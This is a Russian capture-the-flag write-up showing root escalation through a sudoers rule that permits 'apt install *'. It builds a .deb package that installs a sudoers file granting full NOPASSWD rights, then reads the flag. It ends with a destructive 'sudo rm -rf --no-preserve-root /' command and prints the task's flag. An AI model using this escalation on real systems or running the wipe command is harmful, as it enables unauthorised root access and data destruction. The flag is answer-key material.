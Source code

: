 # Всю руку откусят: Write-up

Ура, на нашей системе разрешили запускать `apt`! Правда, не любой, а только `apt install` с любыми дальнейшими аргументами:

```bash
user@fingergiving:/$ cat /etc/sudoers.d/10-apt
user ALL=(ALL) NOPASSWD: /usr/bin/apt install *
```

Никакие другие команды выполнять нельзя, но это и не нужно: мы можем указать в качестве аргумента имя файла пакета, который сами же и соберём. Пакет, например, может добавлять в sudoers.d разрешение нам делать всё что угодно.

Найдём [какую-нибудь инструкцию про создание пакетов](https://www.baeldung.com/linux/create-debian-package) и последуем ей.

Создадим директории:

```bash
user@fingergiving:/$ cd /tmp
user@fingergiving:/tmp$ mkdir pkg pkg/DEBIAN pkg/etc pkg/etc/sudoers.d
```

И файлы (завершаем ввод сочетанием клавиш Ctrl+D в начале новой строки):

```bash
user@fingergiving:/tmp$ cat > pkg/DEBIAN/control
Package: pkg
Version: 1.0-1
Section: utils
Priority: optional
Architecture: all
Maintainer: Some <nnn@nnn.nnn>
Description: This is a test application for packaging

user@fingergiving:/tmp$ cat > pkg/etc/sudoers.d/09-all
user ALL=(ALL) NOPASSWD: ALL
```

Соберём пакет. Опция `--root-owner-group` необходима, чтобы владельцем устанавливаемого пакетом файла был root — иначе sudo будет игнорировать наше новое правило.

```bash
user@fingergiving:/tmp$ dpkg-deb --root-owner-group --build pkg
dpkg-deb: building package 'pkg' in 'pkg.deb'.
```

И установим:

```bash
user@fingergiving:/tmp$ sudo apt install ./pkg.deb
...
Setting up pkg (1.0-1) ...
...
```

Теперь можно творить всё, что хочется!

```bash
user@fingergiving:/tmp$ sudo cat /flag.txt
ugra_you_are_not_going_to_stop_after_the_elbow_43wyr65uxtyl
user@fingergiving:/tmp$ sudo rm -rf --no-preserve-root /
```

Флаг: **ugra_you_are_not_going_to_stop_after_the_elbow_43wyr65uxtyl**
